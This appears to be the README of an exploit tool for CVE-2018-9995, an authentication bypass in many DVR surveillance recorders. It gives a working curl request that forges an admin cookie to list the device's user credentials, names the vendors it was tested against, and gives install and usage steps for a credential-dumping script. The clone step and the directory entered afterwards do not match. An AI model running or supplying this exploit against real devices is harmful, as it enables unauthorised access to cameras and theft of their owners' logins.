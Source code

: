 [Tool] show DVR Credentiales
[*] Exploit Title:       "Gets DVR Credentials" 
[*] CVE:                 CVE-2018-9995
[*] CVSS Base Score v3:  7.3 / 10
[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
[*] Date:                09/04/2018
[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )













$> Exploit:
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
	
	tested in DVR (banner/vendor ?):
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus,  - Security. Never Compromise !! - 
Night OWL
DVR Login
HVR Login
MDVR Login

















TOOL: "Show all DVR Credentials"
Quick start
usr@pwn:~$ git clone https://github.com/YoZSploit/MOrooc
usr@pwn:~$ cd CVE-2018-9995_dvr_credentials
usr@pwn:~$ pip install -r requirements.txt
help
usage: Cam.py [-h] [-v] --host HOST [--port PORT]

[+] Obtaining Exposed credentials

optional arguments:
  -h, --help     show this help message and exit
  -v, --version  show program's version number and exit
  --host HOST    Host
  --port PORT    Port


















[+] Demo: python Cam.py --host 192.168.1.101 -p 81
